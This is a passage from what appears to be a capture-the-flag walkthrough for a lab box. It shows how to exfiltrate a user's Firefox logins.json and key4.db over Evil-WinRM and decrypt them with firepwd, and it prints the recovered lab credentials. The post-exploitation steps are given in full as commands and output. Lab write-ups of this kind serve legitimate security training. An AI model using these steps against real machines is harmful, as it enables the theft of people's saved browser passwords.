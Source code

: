 ```
git clone https://github.com/lclevy/firepwd
cd firepwd
```

  

---

**✅ Prepare the Firefox profile folder**

  

After downloading logins.json and key4.db from the target using Evil-WinRM:

```
download "C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json"
download "C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db"
```

Create the matching directory structure on your Kali machine:

```
mkdir -p ~/firefox_decrypt_profile/br53rxeg.default-release
mv logins.json key4.db ~/firefox_decrypt_profile/br53rxeg.default-release/
```

  

---

**✅ Install required Python modules:**

```
pip install pyasn1 pycryptodome
```

> ⚠️ Not Crypto — you must install pycryptodome, or decryption won’t work.

---

**✅ Run the tool:**

```
cd ~/firefox_decrypt_profile/br53rxeg.default-release/
python3 ~/firepwd/firepwd.py .
```

✅ The . tells the script to look in the current folder where logins.json and key4.db are.

---

**🔓 Result:**

  

You’ll get **cleartext saved credentials** like:

```
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'

```
